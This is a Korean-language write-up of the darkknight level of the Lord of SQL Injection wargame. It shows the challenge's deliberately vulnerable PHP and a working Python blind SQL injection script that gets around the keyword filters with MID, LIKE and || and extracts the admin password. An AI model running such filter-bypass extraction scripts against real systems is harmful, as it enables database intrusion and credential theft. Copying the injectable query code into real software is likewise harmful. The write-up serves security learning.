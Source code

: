 # Lord of SQL Injection No.12 - darkknight

## 문제 출제 의도

`'`, `substr`, `ascii`, `=`을 대소문자 구분 없이 포함하지 않고 Blind SQL Injection을 하여 `pw`를 알아낼 수 있는지 확인한다.

## 소스 코드 분석

darkknight 문제의 php 소스 코드는 다음과 같다.
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_darkknight where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_darkknight where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("darkknight"); 
  highlight_file(__FILE__); 
?>
```
-----

```php
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=/i', $_GET[no])) exit("HeHe"); 
```
* GET방식으로 pw를 받고, pw에 `prob`, `_`, `.`, `()` 가 들어 있으면 `No Hack ~_~`이 뜨고 문제 풀이에 실패한다.

* 또한, **대소문자 구분 없이** pw에 `'` 가 들어 있으면 `HeHe`가 뜨고 문제 풀이에 실패한다.

* 또한, **대소문자 구분 없이** no에 `'`, `substr`, `ascii`, `=` 이 들어 있으면 `HeHe`가 뜨고 문제 풀이에 실패한다.

```php
  $query = "select id from prob_darkknight where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_darkknight where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("darkknight"); 
```
* 받은 pw와 no가 직접 쿼리에 들어간다. 이것으로 SQL Injection 공격이 가능하다는 것을 알 수 있다.

* `$result['id']`에 "0"을 제외한 어떤 값이든 들어 있으면 응답에 "Hello "와 `$result[id]` 값을 붙인 문자열이 포함된다.

* 문제 풀이가 성공하는 조건은 '데이터베이스에서 받은 pw와 GET방식으로 전달받은 pw가 같음'이다. 즉, 실제 데이터베이스에 저장된 pw를 알아내서 전달해야 한다.

## addslashes
```php
string addslashes ( string $str )
```
* addslashes 함수는 데이터베이스 질의 등에서 처리할 필요가 있는 문자(홑따옴표('), 겹따옴표("), 백슬래시(\), NUL(NULL 바이트)) 앞에 백슬래시를 붙인 문자열을 반환한다.

* 따라서 `addslashes($_GET[pw])` 는 `$_GET[id]`에서 문자열 `홑따옴표('), 겹따옴표("), 백슬래시(\), NUL(NULL 바이트)`를 찾아 백슬래시를 앞에 붙인 문자열을 반환한다.

* php의 addslashes 함수에 대해 잘 모르겠다면 다음 링크를 참고하자.

* [PHP: addslashes - Manual](http://php.net/manual/kr/function.addslashes.php)

-----

## Solution
    
1. MID 함수, LIKE 활용

    ```python
    import urllib.request
    from urllib.parse import quote

    key = ""

    pwlen = 0

    for i in range(1, 20):
        url = "http://los.eagle-jump.org/darkknight_f76e2eebfeeeec2b7699a9ae976f574d.php?no="
        data = "-1 || length(pw) LIKE {}#".format(str(i)) # = 을 못쓰므로 LIKE 로 수정
        print(data)
        data = quote(data)
        re = urllib.request.Request(url + data)

        re.add_header(
            "User-agent", "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36")
        re.add_header(
            "Cookie", "PHPSESSID=bb9ultdedrmse87p4473hmms81"
        )

        req = urllib.request.urlopen(re)

        if str(req.read()).find("Hello admin") != -1:
            pwlen = i
            print('pw length : ' + str(pwlen))
            break

    for i in range(1, pwlen + 1):
        for j in range(32, 127):
            if (chr(j) == '%' or chr(j) == '_'): # LIKE 를 사용하므로 와일드카드인 %와 _는 제외
                continue
            url = "http://los.eagle-jump.org/darkknight_f76e2eebfeeeec2b7699a9ae976f574d.php?no="
            data = '-1 || MID(pw, 1, {}) LIKE "{}"#'.format( # or, and 를 ||, && 로 수정, MID 함수 사용, = 을 LIKE 로 수정, ' 를 "로 수정
                str(i), key + chr(j))
            print(data)
            data = quote(data)
            re = urllib.request.Request(url + data)

            re.add_header(
                "User-agent", "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36")
            re.add_header(
                "Cookie", "PHPSESSID=bb9ultdedrmse87p4473hmms81"
            )

            req = urllib.request.urlopen(re)

            if str(req.read()).find("Hello admin") != -1:
                key += chr(j).lower()
                print(key)
                break
    print(key)
    ```

    이러한 코드를 실행하면 결과값으로 1c62ba6f 를 출력한다.
    이를 GET방식으로 pw의 값으로 전달하면 풀린다.
    
    ```
    http://los.eagle-jump.org/darkknight_f76e2eebfeeeec2b7699a9ae976f574d.php?pw=1c62ba6f
    ```